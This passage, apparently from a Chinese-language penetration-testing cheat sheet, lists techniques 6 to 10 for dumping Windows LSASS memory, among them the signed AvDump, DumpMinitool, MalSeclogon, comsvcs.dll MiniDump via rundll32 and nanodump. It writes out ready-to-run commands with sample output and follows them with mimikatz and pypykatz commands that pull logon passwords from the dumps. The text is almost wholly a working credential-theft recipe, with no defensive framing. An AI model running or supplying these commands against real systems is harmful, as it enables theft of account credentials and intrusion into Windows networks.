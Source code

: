 ![](../assets/post_img/Snipaste_2024-05-06_17-54-38.png)

```
6. Avdump

AvDump.exe是Avast杀软自带程序,可用于转储指定进程内存数据,带有Avast杀软数字签名
https://github.com/f1tz/Misc/tree/master/AvDump
```

```
7. DumpMinitool

DumpMinitool.exe --file dump.txt --processId 696 --dumpType Full
Dump minitool: Started with arguments --file dump.txt --processId 696 --dumpType Full
Output file: 'dump.txt'
Process id: 696
Dump type: Full
Dumped process.

mimikatz # sekurlsa::minidump C:\Users\Administrator\Desktop\dump.txt
Switch to MINIDUMP : 'C:\Users\Administrator\Desktop\dump.txt'

mimikatz # sekurlsa::logonpasswords
```

```
8. MalSeclogon

https://github.com/antonioCoco/MalSeclogon

MalSeclogon.exe -p 696 -d 1
Attempt to leak process handles from lsass: 0x03e0 0x05b8 0x0690...
Lsass dump created with leaked handle! Check the path C:\lsass.dmp
```

```
9. comsvcs.dll

rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id Desktop\lsass-comsvcs.dmp full
```

```
10. nanodump

https://github.com/fortra/nanodump

nanodump.x64.exe --fork -w lsass.dmp
The minidump has an invalid signature, restore it running:
scripts/restore_signature lsass.dmp
Done, to get the secretz run:
python3 -m pypykatz lsa minidump lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```
